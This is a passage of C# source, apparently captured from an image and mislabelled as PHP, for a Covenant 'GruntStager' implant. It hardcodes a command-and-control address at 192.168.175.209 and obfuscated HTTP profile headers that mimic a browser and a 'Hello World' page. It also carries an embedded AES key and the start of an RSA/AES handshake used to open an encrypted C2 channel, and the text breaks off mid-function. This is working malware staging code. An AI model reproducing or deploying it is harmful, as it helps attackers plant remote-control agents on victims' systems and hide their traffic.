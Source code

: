 ```php
            new GruntStager();
        }
        public static void Execute()
        {
            new GruntStager();
        }
        public void ExecuteStager()
        {
            try
            {
                List<string> CovenantURIs = @"http://192.168.175.209:80".Split(',').ToList();
                string CovenantCertHash = @"";
                List<string> ProfileHttpHeaderNames = @"VXNlci1BZ2VudA==,Q29va2ll".Split(',').ToList().Select(H => System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(H))).ToList();
                List<string> ProfileHttpHeaderValues = @"TW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xKSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvNDEuMC4yMjI4LjAgU2FmYXJpLzUzNy4zNg==,QVNQU0VTU0lPTklEPXtHVUlEfTsgU0VTU0lPTklEPTE1NTIzMzI5NzE3NTA=".Split(',').ToList().Select(H => System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(H))).ToList();
                List<string> ProfileHttpUrls = @"L2VuLXVzL2luZGV4Lmh0bWw=,L2VuLXVzL2RvY3MuaHRtbA==,L2VuLXVzL3Rlc3QuaHRtbA==".Split(',').ToList().Select(U => System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(U))).ToList();
                string ProfileHttpPostRequest = @"i=a19ea23062db990386a3a478cb89d52e&data={0}&session=75db-99b1-25fe4e9afbe58696-320bea73".Replace(Environment.NewLine, "\n");
                string ProfileHttpPostResponse = @"<html>
    <head>
        <title>Hello World!</title>
    </head>
    <body>
        <p>Hello World!</p>
        // Hello World! {0}
    </body>
</html>".Replace(Environment.NewLine, "\n");
                bool ValidateCert = bool.Parse(@"false");
                bool UseCertPinning = bool.Parse(@"false");

                Random random = new Random();
                string aGUID = @"518387fa18";
                string GUID = Guid.NewGuid().ToString().Replace("-", "").Substring(0, 10);
                byte[] SetupKeyBytes = Convert.FromBase64String(@"rrONV/NTSPl4sU0FVzoK1TxidURN/ORaK0Yh6sMzG24=");
                string MessageFormat = @"{{""GUID"":""{0}"",""Type"":{1},""Meta"":""{2}"",""IV"":""{3}"",""EncryptedMessage"":""{4}"",""HMAC"":""{5}""}}";

                Aes SetupAESKey = Aes.Create();
                SetupAESKey.Mode = CipherMode.CBC;
                SetupAESKey.Padding = PaddingMode.PKCS7;
                SetupAESKey.Key = SetupKeyBytes;
                SetupAESKey.GenerateIV();
                HMACSHA256 hmac = new HMACSHA256(SetupKeyBytes);
                RSACryptoServiceProvider rsa = new RSACryptoServiceProvider(2048, new CspParameters());

                byte[] RSAPublicKeyBytes = Encoding.UTF8.GetBytes(rsa.ToXmlString(false));
                byte[] EncryptedRSAPublicKey = SetupAESKey.CreateEncryptor().TransformFinalBlock(RSAPublicKeyBytes, 0, RSAPublicKeyBytes.Length);
                byte[] hash = hmac.ComputeHash(EncryptedRSAPublicKey);
                string Stage0Body = String.Format(MessageFormat, aGUID + GUID, "0", "", Convert.ToBase64String(SetupAESKey.IV), Convert.ToBase64String(EncryptedRSAPublicKey), Convert.ToBase64String(hash));

                ServicePointManager.SecurityProtocol = SecurityProtocolType.Ssl3 | SecurityProtocolType.Tls;
```
